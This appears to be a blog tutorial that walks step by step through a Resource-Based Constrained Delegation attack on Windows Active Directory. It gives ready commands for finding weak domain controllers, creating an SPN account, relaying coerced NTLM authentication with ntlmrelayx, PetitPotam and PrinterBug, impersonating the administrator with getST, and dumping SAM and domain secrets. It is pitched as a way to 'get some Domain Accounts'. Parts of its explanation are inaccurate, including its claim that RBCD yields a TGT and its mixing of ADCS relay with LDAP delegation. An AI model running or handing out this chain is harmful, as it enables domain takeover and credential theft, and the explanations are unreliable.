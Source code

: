 
# Resource-Based Constrained Delegation (RBCD) Exploitation

## Initial Engagement

### Introduction

 In this article, we'll delve into the world of Resource-Based Constrained Delegation (RBCD), a Windows-specific protocol that can be exploited for unauthorized access and understand how  to perform RBCD to gain elevated privileges or even domain administrator rights.

### What is RBCD?

RBCD is a Kerberos-based protocol that allows a service on a domain-joined computer to obtain a ticket-granting ticket (TGT) for a specified user account. This process is constrained by the permissions of the service, so the TGT obtained is limited in its scope and can't be used for unauthorized access. (We'll see about that)

### Why Should You Care?

 Understanding how to exploit RBCD vulnerabilities to gain unauthorized access to sensitive resources can add more to your toolkit. Understanding how constrain and coercion works you'll be better equipped to identify and mitigate (or exploit) these risks, ensuring the security of your organization's infrastructure.

## The How-To Guide

RBDC exploitation needs an specific set off conditions. I'll add a list of those conditions and we'll be going through it along the article so don't worry if you don't get something right away just keep reading.

- A domain controller with ldap signing disabled or not enforced
- A victim server with Web-based Distributed Authoring and Versioning (Webdav) enabled
- A domain user account with Service Principal Name (SPN) and delegation permissions 

That's good! Enough talk lets get in to the exploitation.
### Step 1: Identify Potential Targets

To exploit an RBCD vulnerability, you need to find a target that has not implemented proper security measures. we are looking for domain controllers with ldap signing disabled NetExec is our friend here.

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M ldap-checker
```

after we get our vulnerable domain controller we need to identify a machine to attack this is going to be our target this machine has to have webdav enabled and be vulnerable to two authentication coercion we are going to look for MS-EFSRPC (PetitPotam) or MS-RPRN (PrinterBug).

```
nxc smb <IP/Scope> -u <username> -p <password> -d <domain.com> -M coerce_plus
```

Now we got our targets, a vulnerable domain controller to perform the relay and a vulnerable machine to perform the coercion.
### Step 2: Setup our machine

Before proceeding with the exploit you'll need an account with SPN, if you're lucky enough your account already have an SPN if you don't have one there are a couple of ways to get one.

1. **Modify DNS record**
2. **Create a Machine account**

##### Modify DNS Record 

To modify the DNS record we can use a tool called `dnstool.py` that is part of the `krbrelayx` repository by the incredible Dirkjanm.

```
dnstool.py -u domain.com\username -p <password> -a add -t A -r <machinename> -d your_ip dns_server_ip
```

Let break this command a little:

- -a add : Action to take on the dns server
- -t A : Type of record 
- -r : Record to add (the name you want to use)
- -d : your attacker machine ip followed by the dns server ip

if this succeeds congrats you can continue with the relay if you don't have permissions maybe you can create a machine account.

##### Create a machine account

First of all we need to check if we have permissions to create machine accounts lets pull nxc again and check for the domain controller machine account quota (MAQ).

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M maq
```

if we have a maq above 0 we can attemp to create a machine account all machine accounts have SPN as default

to create a machine account we are going to use a tool from the Impacket Repo called `addcomputer.py`.

```
addcomputer.py -method LDAPS -computer-name 'COMPUTERNAME$' -computer-pass 'Password' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'
```

- `-dc-host` : hostname of the domain controller.
- `-domain-netbios`: the domain's name where the new computer account will be added. 
- `-computer-name`: the name of the new computer account. 
- `-computer-pass`: password of the new computer account. 
- `-method`: the method to add the new computer account. It can be:
	- SAMR to add the account via SMB 
	- LDAPS. 
	(This is important the default method is SAMR and with SAMR the account will be created without SPNs)

if this succeeds congrats you can continue with the relay.
### Step 3: Configure and Launch the RBCD Exploit

RBCD is a relay attack we are going to relay the authentication from one machine to our own using coercion then we are going to relay that authentication attempt to a ADCS and get the certificate then we use that certificate to impersonate the victim account and get the kerberos ticket(TGT).

![Relay.png](Relay.png)
 
Lets start by setting up the relay. We are going to use another Impacket tool called `ntlmrelayx.py`.

```
./ntlmrelayx.py -smb2support -t ldaps://dc.domain.com --http-port 8080 --delegate-access --escalate-user SPNusername --no-dump --no-acl --no-da --remove-mic
```

Let `ntlmrelayx.py` running and attempt authentication. we have two ways for the coercion: 

- MS-EFSRPC (PetitPotam)  
- MS-RPRN (PrinterBug)

###### MS-EFSRPC (PetitPotam)
```
./PetitPotam.py -d episourcein.episource.com -u 'user' -p 'password' SPNUsername@8080/path victim.domain.com
```

###### MS-RPRN (PrinterBug)

```
./printerbug.py domain.com/user:password@victim.domain.com SPNUsername@8080/path
```

Then we are going to request the Impersonated Service Ticket for this we are going to use another impacket tool called `getSt.py`.

```
./getST.py -spn cifs/victim.domain.com -impersonate 'administrator' domain.com/SPNusername:'password' -dc-ip <domain_ip> 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating ldap.
```

Then we just have one step left retrieve the ticket stored in cache

```
export KRB5CCNAME=/yourpath/domainAdmin.ccache
```
### Step 4: Profit

Now you can use this kerberos credentials to do whatever you want enumerate, dump creds, etc ...

```
nxc smb victim.domain.com --use-kcache --sam 
```

```
./secretsdump.py -k -no-pass victim.domain.com
```

## Conclusion

Hope this guide help you get some Domain Accounts, By understanding how you can misuse RBCD vulnerabilities, you'll be better equipped to pawn more things. Keep Hacking!
